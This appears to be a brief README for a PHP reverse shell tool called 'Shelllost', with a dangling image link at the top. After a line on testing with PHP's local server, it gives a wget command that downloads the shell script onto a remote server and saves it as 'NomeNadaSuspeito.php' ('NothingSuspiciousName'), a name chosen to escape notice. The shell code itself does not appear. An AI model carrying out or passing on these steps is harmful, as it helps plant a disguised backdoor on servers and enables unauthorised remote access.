 # PHP Revershell
Testing:
```php
php -S localhost:8080 # Intance host and port
```
For test use defaults directories, or docker image
# Installing in remote server
Download the file, example:
```bash
wget https://raw.githubusercontent.com/Jul10l1r4/Shelllost/master/PHP/main.php -O NomeNadaSuspeito.php
```
